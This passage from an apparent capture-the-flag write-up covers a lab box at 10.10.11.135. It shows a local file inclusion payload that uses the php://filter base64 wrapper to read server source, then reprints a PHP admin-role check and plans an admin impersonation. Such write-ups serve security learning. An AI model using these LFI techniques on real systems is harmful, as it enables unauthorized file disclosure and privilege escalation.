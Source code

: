 ## Admin role impersonate

There is a one php file `upload.php` that still left. try to get it from `aaron` login session Got permission error.

![](/assets/img/posts/timing/upload-denied.png)


Using lfi to read the source code of `upload.php` with php Wrapper `http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=<file>`
```php
<?php
include("admin_auth_check.php");

// ... [snip] ...
```

`upload.php` only allowed for admin by checking logged in user role with `admin_auth_check.php`.
```php
<?php

include_once "auth_check.php";

if (!isset($_SESSION['role']) || $_SESSION['role'] != 1) {
    echo "No permission to access this panel!";
    header('Location: ./index.php');
    die();
}

?>
```

Next thing to check is the profile edit page.
